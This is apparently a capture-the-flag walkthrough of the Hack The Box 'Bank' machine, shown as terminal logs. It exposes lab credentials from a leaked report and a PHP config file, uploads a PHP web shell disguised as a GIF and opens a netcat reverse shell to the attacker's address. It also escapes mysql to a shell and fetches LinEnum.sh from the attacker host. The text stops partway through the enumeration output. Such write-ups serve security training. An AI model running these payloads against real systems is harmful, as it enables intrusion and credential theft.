   584 3545c87f1008dbaf5d6e1faf365dc00b.acc
   584 34df994940887200e952babc211df6f3.acc
   584 34457654bf404f9419d68bc8c6f580bb.acc
   584 33baf312460423d88dc681c5aafc0b0a.acc
   584 3313d744daa87043953a44fbb65b2981.acc
   584 32f6724fef117c0dc2de8e69180bc7e1.acc
   584 32e89b9885e8e2c7c3bd635bea89fd0a.acc
   584 3293cf3299da33ed5e173453e98bab68.acc
   584 31d7f7440558b43d32b40a3927724fff.acc
   584 3154e6528069850adc415ae29414f380.acc
   584 30f837801133d02bad7737387693fc77.acc
   584 30a392f1433bd45a4bba176dc97c9de4.acc
   584 2ffe137ee7c65733590febfbfc5040ae.acc
   584 2fb844630d50127f324bf0734046bc56.acc
   584 2f3cf398674340a1c3959e6ce1a4f902.acc
   584 2ebac37c664663f382ddcf74c9295289.acc
   584 2e8b4d1333646e8ed98637bf1793c78e.acc
   584 2e8783c6f4ceba1ca5d9f091a7a3f319.acc
   584 2e5bc9bbaa7e60b1bc88c5ffa46b47a5.acc
   584 2db5f802521a622c4cd64c83eddc07d6.acc
   584 2ca3519fc00af7c9d63e58b9df82d4f8.acc
   584 2c5b01899d473f77962df31812601294.acc
   584 2c51591fcbda7b91ca9f56b586f3ca55.acc
   584 2c2fed06d94f69685882dac0d9ce9cc8.acc
   584 2c07b69f32dbd283b47b524edb0053ba.acc
   584 2bf7e04143696925b74ff2d58e48bb43.acc
   584 2b3be36d865a5a40250942b5c8f54dbf.acc
   584 2b132b6e7781da0ff92bcc4a186e7173.acc
   584 2acb388eebe1c2206052ac5ec3bd6edc.acc
   584 2a3d905e1abcf6d728dbb6f33e3b3093.acc
   584 2a0267dc11bdb1d6853b08335e9f030d.acc
   584 29cf9851f990721b4078930a52371855.acc
   584 29cb0f36e1b09fafd64dfc475cd154ee.acc
   584 29ca4e8271e92fd18972da499d83faa9.acc
   584 290af0ac02bd7a0aefa440273a797520.acc
   584 28c5858b4c1f3f5272b505af792a131a.acc
   584 28ae5f87693c37f5b43b93d6dcb192af.acc
   584 2891c5f2cfce57c5d7ce5eb17711ad1e.acc
   584 281a248eac5b77324ea4b0871ad071ce.acc
   584 279e838eea41bd10c7d57738361fba64.acc
   584 2744c3aa5ea3c1e0c43ba0b07e6d7ab7.acc
   584 267ed1121ea6c0c9e2551620b10be6c9.acc
   584 26678f1b6310e7619a2a39f4301fdeb1.acc
   584 25f38959dbf273accce1ca8957c69dd0.acc
   584 25ad3803118518c540b30e066e9f7a03.acc
   584 254c4a868ba0612edca14c19af07e30f.acc
   584 254770162ed5902fbbaf2460e91bebb5.acc
   584 24618f7079b4f5956459c1a10abbba14.acc
   584 245131960374afdfd3af75590d81ffad.acc
   584 22fb78ab39db7a6c496838f594e377b6.acc
   584 229b603e25630350619dc9b86a749c38.acc
   584 221c5aa7f92fd53c68f85ba73f8935be.acc
   584 21f35deb6f99be95782b7d978d1bb66f.acc
   584 21f29d019d2dbda1620ba49978d6c6ca.acc
   584 21efa62f7f2e77c1993fb67c69abae22.acc
   584 20f4f2fa9b091725330e1b98c3d0edb3.acc
   584 20c7d56557313b26a07a08c4634634ca.acc
   584 20b2090845b0563afc69c4e7fec1e497.acc
   584 2045012eb38d171e1e24ba7ddc6fd11b.acc
   584 1fe096b278f292f3ae68280d7ffac179.acc
   584 1f83271fd1c62b4714abc3a00327b4e7.acc
   584 1ec19e69fed7d847bb7566f19e8f4050.acc
   584 1e98bdb0f10109ed73058fba9c5c1752.acc
   584 1e32e4e412da54833e813bff5c8beb5d.acc
   584 1dfea613df52206550c8a254baae5bc6.acc
   584 1d9ec4f06b0b4f89bab1b559260108c6.acc
   584 1cbcd839823f160b914752703a22567e.acc
   584 1cb73099b330049d199326b5e6148510.acc
   584 1c3289e8d28be50af870b160732314c9.acc
   584 1bd6e15ea2cb7a17782a9287c76023e0.acc
   584 1bd2ad5271b2ca76af9dd5d7f68425f3.acc
   584 1bc66277954f4d50b50a831df74bdf65.acc
   584 1b6c33d239e59dc15e93559b7ee62475.acc
   584 1ae934f62a8e5dce095c4f5da019ce0f.acc
   584 1ac6533f614e99cb74d2aaf00cd1b1e5.acc
   584 1abdae025e433fb00a8c684a853c191a.acc
   584 1a419fd7740a76ba3124528ff0419624.acc
   584 19f06120f156391687ba9625de702836.acc
   584 198007304d3f3413936f9634ff44573b.acc
   584 1967bd76aaafed760132a851a3d7c8d6.acc
   584 18bf04910a0623a4c2d6287341b53ddb.acc
   584 17d462006481467102be11a86832691d.acc
   584 17115b9167f94b0fc8de6a075f7a7c3c.acc
   584 16a2ff45c69de2df023ca9dfb2ce12bf.acc
   584 15f5a217c839e4f6ef0cc46dc01e494c.acc
   584 15baa7e6a3b477fc3d6b9567d2a71c56.acc
   584 15a9158ee078d8a058736267caf8b910.acc
   584 1557e069780d9eac7f88a6e10e7cd90b.acc
   584 14e30bd14c29ccd86b16115784f405f5.acc
   584 146e61f82b0174bf416c2cc895e27136.acc
   584 1458d8c0b03eb55944f3928fe45c66d8.acc
   584 141d68e343b77ac020de3087e3efbf3e.acc
   584 13c0e6b11cf2b1525d38143037cdcd51.acc
   584 13b790b817ceda1763f695cb4b1151b8.acc
   584 1308cb859a75a2b66d72b3a36ce87ace.acc
   584 12eb6b074fcf0adfcf0274fbf0947edb.acc
   584 12c2d8fb0ed8df68972e2fe4dc5b4609.acc
   584 120456185fa840aad81c6ea38b9f70d7.acc
   584 10df9dfe748997d7bbfb5d64cee284b9.acc
   584 0fe47df5c5dd6fed071b81c5ccfd29e2.acc
   584 0f8495f20c0711377b9d082d53280d3d.acc
   584 0f2b9dad0ad001b9b14d64112de3fbcb.acc
   584 0efa8fd313b2a59bb07e8a656dc91412.acc
   584 0ec280c07bff51e211f18118aaf110b4.acc
   584 0ec03beb3832b05908105342c0cc9b2f.acc
   584 0e5a884b0b23e98446c460b4dbafc3ee.acc
   584 0d76fac96613294c341261bd87ddcf33.acc
   584 0d3d24f24126789503b03d14c0467657.acc
   584 0ce1e50b4ee89c75489bd5e3ed54e003.acc
   584 0c4c9639defcfe73f6ce86a17f830ec0.acc
   584 0be866bee5b0b4cff0e5beeaa5605b2e.acc
   584 0b59b6f62b0bf2fb3c5a21ca83b79d0f.acc
   584 0b45913c924082d2c88a804a643a29c8.acc
   584 0a9014d0cc1912d4bd93264466fd1fad.acc
   584 0a629f4d2a830c2ca6a744f6bab23707.acc
   584 0a2f19f03367b83c54549e81edc2dd06.acc
   584 098bab0276720c1c52abc420af43bd9d.acc
   584 085349be3fa3df64b0fc3f2c8a7b95b7.acc
   584 07dbd94cf3a4b07d4ac13d0ed5573cfc.acc
   584 070a07a40fcc8c5f6dfbb0f16f6917b0.acc
   584 06e5ed6835032cadeedd8cbc2525c1e8.acc
   584 06cc59f58d34941d93a9f7daa54aeb30.acc
   584 0603c831aa543636b14c9047ab65ca73.acc
   584 04bb6e0356b43d31d25277a4fa56884f.acc
   584 0493facd8932d18d6657c7dff0bc151c.acc
   584 048ed94fee4e036472a1bdb8795a3aef.acc
   584 04671617d7bd3af5683a770e02f9fd56.acc
   584 04488e1db8e68fcf67684b78504f8f2e.acc
   584 03f08dbc9f58c93aea6413111787bdeb.acc
   584 03c158aca0eb3493b4730ba5ed0d3a80.acc
   584 036aacee702e369846c184cdf374912b.acc
   584 03089964c6d31d512907f2fd2547d690.acc
   584 02e28c6da52d30a3d4029c4fee24a627.acc
   584 0285de4a0d1ae2cae6d4d2be03c71ad7.acc
   584 021d32498ed3715cf0cfa4cba3233de6.acc
   584 01a13d9db1b513230047f8951f5ee426.acc
   584 013fc67de873fdc3f001a3c8fd6fb252.acc
   584 0130afdc7d28350eaa7018736d8e75af.acc
   584 012713bf9cfc1e5adfbdbc14dd32a1c6.acc
   584 00a929b4f7ece04c5da8fac8da8370a0.acc
   584 005953d5f1fcb53ed897063881a91e00.acc
   584 0026d872694cf17e69618437db0f5f83.acc
   584 001957ef359d651fbb8f59f3a8504a2f.acc
   584 0016a3b79e3926a08360499537c77e02.acc
   583 fc87e5f87f8d7a8eedc4ee85b5b1c58e.acc
   583 fb5a9d6ac0d2c781dffd73c470f23fe0.acc
   583 faba62033042fee10008e7cd3790ba2e.acc
   583 f77b61daae19f1fdf0331ae62d11b48f.acc
   583 f6607b35d03c6ee905e831c4a00af2c0.acc
   583 f2cd9d9d2d57a8c9e97e427de36ced76.acc
   583 f0f8ea272f091256230e5cbab19a951f.acc
   583 efada3bec9954bac04fe2778a974c9a0.acc
   583 ec60ca862555223fa6d3407485665ae1.acc
   583 e5608acb3cdc61bf03e76ba0eec6f144.acc
   583 de90b8a1ab02fc3057c6bcae023994dc.acc
   583 dd8b35539e6e28b7fca7e16ed30346bc.acc
   583 d81ff44224e6f0af034c595cba2b9197.acc
   583 d482e381c5eb43f1926cfb3a246e5bb0.acc
   583 d1c0337cacd04b40aa41ad9673ab6e18.acc
   583 d0800a34462bed11d866ab5f06ba675d.acc
   583 d0149e8a6c8fc1b1283bc35287e43c16.acc
   583 cfe327744712bc2caae9328329112b34.acc
   583 ce1c2ba769fbecf151783412d27b8f57.acc
   583 cccc89d995cb744980230163ff4bc2b7.acc
   583 c7e5018a4f1def3f9bb7e5845cef8520.acc
   583 c5664a8536412a94d5b109580070bd1c.acc
   583 c4442fa5d035928e507c1b7a3d58abc3.acc
   583 bf1db217197a8ca98e78546d06de0a78.acc
   583 bd5a6de2559b3b47989f6ed359df4b31.acc
   583 bc8f563356a47ba542004438ad25cfe1.acc
   583 b4ed8dcdfcbc03a4f383956db555f674.acc
   583 b2b92a76037f5cedcbddb2cf8922b584.acc
   583 b25d37c6adaa929438e2906e99c9bf10.acc
   583 b244aedf4f40a73e2ba94ca019c11765.acc
   583 aeaa050edd55f9acfdebbc6ec4565e06.acc
   583 abcf40e21740a1c04a9a3566497c0892.acc
   583 a675e030fbf19a997ca2a03c096c7162.acc
   583 a4faa925a6f8d2c6027d5934cea9a103.acc
   583 a19e0c370602300554e6a997b9dc91ad.acc
   583 9da8237625c9c0415c890bef3ba6ebc5.acc
   583 9b18bdcbae98a8fadfd7baadbbab92ac.acc
   583 99b73c36a3f627bca6cf01689505081d.acc
   583 973a3382433a21d7bdb1cc0f8f813f83.acc
   583 9654eabf734023323c0fa3e8ed894c65.acc
   583 91ac85b6679b679cfcaec44e9e91db0f.acc
   583 911be9d5ece260e1789c21cc8997bbe9.acc
   583 86d458e4636c5aaac4985f7521ee6639.acc
   583 85006f1266226e84efb919908d5f8333.acc
   583 84d39f534a1a7ce6f151c0a6d5c1e6c3.acc
   583 845b82de5081018fcbbd55e63cbd04c9.acc
   583 7f44276326c185b7e8bf1cb2ae0c02e3.acc
   583 7e8730a34c228f96819155f5f29eeeb9.acc
   583 7ceed45c2f5a9b3d39155cc8099b1d4a.acc
   583 7c935e676daa9216ac53412b7a47c1f1.acc
   583 7c92466f303a24f50b2880870dea0610.acc
   583 7af56b5821f745df33ba3a5fb0dd7009.acc
   583 77e580bfc95b1c0a89fe3b886dd961f9.acc
   583 72d21e93a5b484619d0a6393ea54d76f.acc
   583 71fb6e8200897f051710b9eca09c1957.acc
   583 71e11c0830a96debe4d53669c6cb6149.acc
   583 70adef1fa6974f1fc074f669b5f5228f.acc
   583 631a75b70b8724266b9c50b79a66f580.acc
   583 6272e6fde32336fbd46ce0056234965b.acc
   583 5e496ac0ca6259ee6ddd18c7e784c4bd.acc
   583 5dcd2d4cc2f5ebf971da7b9577313fc6.acc
   583 5d20c77d44fa9054a4822b2cc42aaf6a.acc
   583 5a6f81da012f11f463df711758a7d98c.acc
   583 58e63112be4258f4568ef480ef47da5b.acc
   583 556c5bd821268a5bf9b26de19c644e8d.acc
   583 52a6f94974c07bd49cd9dc9f89501751.acc
   583 51e6542018c82a48cfe15db8954fbda8.acc
   583 51e3753a2abd98a29f5344424b8a3db3.acc
   583 508c160d0792912147bfb2f29b2bb136.acc
   583 4f2ef432bf1238f085d4a4e519a1dfff.acc
   583 4996ea3ca285adb12a03d3dd8cbb4ad0.acc
   583 453500e8ebb7e50f098068d998db0090.acc
   583 42261debb6bdfc4d709d424616bc18cc.acc
   583 4176c547af366f716c6ae37755304425.acc
   583 3edf797d706622fab4a57ba0a4af704c.acc
   583 3d5e1f376f09b7704eb9309448db2320.acc
   583 39f65afc6e443a171c30bf66fae63db1.acc
   583 39095d3e086eb29355d37ed5d19a9ed0.acc
   583 377af4fb3c552283d364e04bdd45a2ab.acc
   583 32203b71b000edd1b90258a14bf28a55.acc
   583 31553a37be725d7b5d1add5acae714f2.acc
   583 30033ed5c2aedb6b8e8babea24612974.acc
   583 2fe3b2cc3fe0ed617e7650f7a09aa7e7.acc
   583 2f6db9d426117b3921668d15c3667c7e.acc
   583 29ee355c82a4bbe25787fc0b4d96dd45.acc
   583 235f306703512e4e178edbfd427eb860.acc
   583 21c74f96797dbd154c54873c557f872d.acc
   583 1e6784a6a1f6ca5030db8856cc512eb9.acc
   583 1cc7ceed882e806f92df160337e1cef6.acc
   583 172bf2c0394fce86f60e75170afc8f9f.acc
   583 124a5db27699c0e2a3480a7c091bc128.acc
   583 11c1ad9b01c6654be1d995a09a9f2f3b.acc
   583 0abe2e8e5fa6e58cd9ce13037ff0e29b.acc
   583 0a0b2b566c723fce6c5dc9544d426688.acc
   583 0589423587b67002f0a64101e821ba18.acc
   583 02ab56265052fcbffa94aa8868955809.acc
   583 003e8ffc123735afbcc7b219851d45c3.acc
   582 fe9ffc658690f0452cd08ab6775e62da.acc
   582 f4af6b16beb3dbb6468ecf0c959bd090.acc
   582 dd764f1f57fc65256e254f9c0f34b11b.acc
   582 acb4ccb8eeb778b614a993e7c3199e5b.acc
   582 780a84585b62356360a9495d9ff3a485.acc
   582 70b43acf0a3e285c423ee9267acaebb2.acc
   582 346bf50f208571cd9d4c4ec7f8d0b4df.acc
   582 20fd5f9690efca3dc465097376b31dd6.acc
   582 10805eead8596309e32a6bfe102f7b2c.acc
   582 0d64f03e84187359907569a43c83bddc.acc
   582 052a101eac01ccbf5120996cdc60e76d.acc
   581 941e55bed0cb8052e7015e7133a5b9c7.acc
   581 09ed7588d1cd47ffca297cc7dac22c52.acc
   257 68576f20e9732f1b2edc4df5b8533230.acc
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer#
```

```sh
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer# cat 68576f20e9732f1b2edc4df5b8533230.acc
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer#
```

###### Reverse Shell










```sh
root@kali:~/bank# vim shell.htb
root@kali:~/bank# cat shell.htb
GIF8 <?php echo system($_REQUEST['cmd']); ?>
root@kali:~/bank# file shell.htb
shell.htb: GIF image data 28735 x 28776
root@kali:~/bank#
```







```
http://bank.htb/uploads/shell.htb?cmd=nc -e /bin/sh 10.10.14.11 8081
```


[``Upgrading simple shells to fully interactive TTYs``](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

```sh
root@kali:~/bank# nc -nlvp 8081
listening on [any] 8081 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.29] 34378
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bank:/var/www/bank/uploads$ ^Z
[1]+  Stopped                 nc -nlvp 8081
root@kali:~/bank# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/bank# echo $TERM
xterm-256color
root@kali:~/bank# stty raw -echo
root@kali:~/bank# nc -nlvp 8081
                               reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@bank:/var/www/bank/uploads$
www-data@bank:/var/www/bank/uploads$ export TERM=xterm-256color
www-data@bank:/var/www/bank/uploads$ stty rows 51 columns 204
```

```sh
www-data@bank:/var/www/bank/uploads$ cd ..
www-data@bank:/var/www/bank$ ls
assets	balance-transfer  bankreports.txt  delete-ticket.php  inc  index.php  login.php  logout.php  support.php  uploads
www-data@bank:/var/www/bank$ cd inc/
www-data@bank:/var/www/bank/inc$ ls
footer.php  header.php	ticket.php  user.php
www-data@bank:/var/www/bank/inc$
```

```sh
www-data@bank:/var/www/bank/inc$ cat user.php
<?php
/*
	Copyright CodingSlime 2017

	Licensed under the Apache License, Version 2.0 (the "License");
	you may not use this file except in compliance with the License.
	You may obtain a copy of the License at

	    http://www.apache.org/licenses/LICENSE-2.0

	Unless required by applicable law or agreed to in writing, software
	distributed under the License is distributed on an "AS IS" BASIS,
	WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
	See the License for the specific language governing permissions and
	limitations under the License.
*/


class User {

	function login($email, $password){
		$mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
		$email = $mysql->real_escape_string($email);
		$password = md5($password);
		$result = $mysql->query("SELECT * FROM users WHERE email = '$email' AND password = '$password'");
		if($result->num_rows <= 0){
			return false;
		}else{
			return true;
		}
	}

	function totalTickets($username){
		$mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
		$username = $mysql->real_escape_string($username);
		$result = $mysql->query("SELECT * FROM tickets WHERE creator = '$username'");
		return $result->num_rows;
	}

	function getUsername($email){
		$mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
		$email = $mysql->real_escape_string($email);
		$result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
		$row = $result->fetch_assoc();
		return $row['username'];
	}

	function getBalance($username){
		$mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
		$username = $mysql->real_escape_string($username);
		$result = $mysql->query("SELECT * FROM users WHERE username = '$username'");
		$row = $result->fetch_assoc();
		return $row['balance'];
	}

	function getCreditCardNumber($username){
		$mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
		$username = $mysql->real_escape_string($username);
		$result = $mysql->query("SELECT * FROM creditcards WHERE username = '$username'");
		return $result->num_rows;
	}

	function getCreditCards($username){
		$mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
		$username = $mysql->real_escape_string($username);
		$result = $mysql->query("SELECT * FROM creditcards WHERE username = '$username'");
		$final = "";
		while($row = $result->fetch_assoc()){
			$final .= "<tr>";
			$final .= "<td>" . $row['type'] . "</td>";
			$final .= "<td>" . $row['number'] . "</td>";
			$final .= "<td>" . $row['date'] . "</td>";
			$final .= "<td>" . $row['cvv'] . "</td>";
			$final .= "<td>" . $row['balance'] . " $</td>";
			$final .= "</tr>";
		}
		return $final;
	}
}
?>
www-data@bank:/var/www/bank/inc$
```

```sh
www-data@bank:/var/www/bank/inc$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 101
Server version: 5.5.55-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> \! /bin/sh
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ exit
mysql> exit
Bye
www-data@bank:/var/www/bank/inc$
```

###### Getting root using ``suid`` binary

```sh
root@kali:~/bank# git clone https://github.com/rebootuser/LinEnum.git
Cloning into 'LinEnum'...
remote: Counting objects: 98, done.
remote: Total 98 (delta 0), reused 0 (delta 0), pack-reused 98
Unpacking objects: 100% (98/98), done.
root@kali:~/bank# cd LinEnum/
root@kali:~/bank/LinEnum# ls
CHANGELOG.md  CONTRIBUTORS.md  LinEnum.sh  README.md
root@kali:~/bank/LinEnum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.29 - - [12/Feb/2018 22:55:39] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
www-data@bank:/var/www/bank/inc$ cd /dev/shm
www-data@bank:/dev/shm$ wget http://10.10.14.11:8000/LinEnum.sh
--2018-02-13 05:56:01--  http://10.10.14.11:8000/LinEnum.sh
Connecting to 10.10.14.11:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38174 (37K) [text/x-sh]
Saving to: 'LinEnum.sh'

100%[==================================================================================================================================================================>] 38,174      95.4KB/s   in 0.4s

2018-02-13 05:56:02 (95.4 KB/s) - 'LinEnum.sh' saved [38174/38174]

www-data@bank:/dev/shm$
```

```sh
www-data@bank:/dev/shm$ bash LinEnum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = disabled


Scan started at:
Tue Feb 13 05:56:46 EET 2018


### SYSTEM ##############################################
Kernel information:
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux


Kernel information (continued):
Linux version 4.4.0-79-generic (buildd@lcy01-30) (gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3) ) #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017


Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.5 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"


Hostname:
bank


### USER/GROUP ##########################################
Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Fri Jun 16 07:44:56 +0300 2017
chris            pts/0    192.168.147.1    Sun May 28 22:16:12 +0300 2017


Who else is logged on:
 05:56:46 up 1 day,  5:21,  0 users,  load average: 0.10, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(libuuid) gid=101(libuuid) groups=101(libuuid)
uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
uid=102(messagebus) gid=106(messagebus) groups=106(messagebus)
uid=103(landscape) gid=109(landscape) groups=109(landscape)
uid=1000(chris) gid=1000(chris) groups=1000(chris),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
uid=104(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=105(bind) gid=112(bind) groups=112(bind)
uid=106(mysql) gid=114(mysql) groups=114(mysql)

Seems we met some admin users!!!

uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
uid=1000(chris) gid=1000(chris) groups=1000(chris),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)


Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
chris:x:1000:1000:chris,,,:/home/chris:/bin/bash


Super user account(s):
root


Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root  root  4.0K May 28  2017 .
drwxr-xr-x 22 root  root  4.0K Dec 24 06:00 ..
drwxr-xr-x  3 chris chris 4.0K Jun 14  2017 chris


Root is allowed to login via SSH:
PermitRootLogin yes


### ENVIRONMENTAL #######################################
 Environment information:
APACHE_PID_FILE=/var/run/apache2/apache2.pid
APACHE_RUN_USER=www-data
TERM=xterm-256color
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOG_DIR=/var/log/apache2
PWD=/dev/shm
LANG=C
APACHE_RUN_GROUP=www-data
SHLVL=2
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
_=/usr/bin/env


Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


Current umask value:
0022
u=rwx,g=rx,o=rx


umask value as specified in /etc/login.defs:
UMASK		022


Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
Cron jobs:
-rw-r--r-- 1 root root  722 Feb  9  2013 /etc/crontab

/etc/cron.d:
total 16
drwxr-xr-x  2 root root 4096 May 28  2017 .
drwxr-xr-x 96 root root 4096 Feb 12 00:35 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
-rw-r--r--  1 root root  510 Feb  9  2017 php5

/etc/cron.daily:
total 76
drwxr-xr-x  2 root root  4096 Jun 15  2017 .
drwxr-xr-x 96 root root  4096 Feb 12 00:35 ..
-rw-r--r--  1 root root   102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root   625 May  9  2017 apache2
-rwxr-xr-x  1 root root   376 Apr  4  2014 apport
-rwxr-xr-x  1 root root 15481 Apr 10  2014 apt
-rwxr-xr-x  1 root root   314 Feb 18  2014 aptitude
-rwxr-xr-x  1 root root   355 Jun  4  2013 bsdmainutils
-rwxr-xr-x  1 root root   256 Mar  7  2014 dpkg
-rwxr-xr-x  1 root root   372 Jan 22  2014 logrotate
-rwxr-xr-x  1 root root  1261 Sep 23  2014 man-db
-rwxr-xr-x  1 root root   435 Jun 20  2013 mlocate
-rwxr-xr-x  1 root root   249 Feb 17  2014 passwd
-rwxr-xr-x  1 root root  2417 May 13  2013 popularity-contest
-rwxr-xr-x  1 root root   214 Oct  7  2014 update-notifier-common
-rwxr-xr-x  1 root root   328 Jul 18  2014 upstart

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 May 28  2017 .
drwxr-xr-x 96 root root 4096 Feb 12 00:35 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 May 28  2017 .
drwxr-xr-x 96 root root 4096 Feb 12 00:35 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.weekly:
total 28
drwxr-xr-x  2 root root 4096 Jun 15  2017 .
drwxr-xr-x 96 root root 4096 Feb 12 00:35 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root  730 Feb 23  2014 apt-xapian-index
-rwxr-xr-x  1 root root  427 Apr 16  2014 fstrim
-rwxr-xr-x  1 root root  771 Sep 23  2014 man-db
-rwxr-xr-x  1 root root  211 Oct  7  2014 update-notifier-common


Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


### NETWORKING  ##########################################
Network & IP info:
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:6d:51
          inet addr:10.10.10.29  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:6d51/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:6d51/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1247488 errors:102 dropped:362 overruns:0 frame:0
          TX packets:889724 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
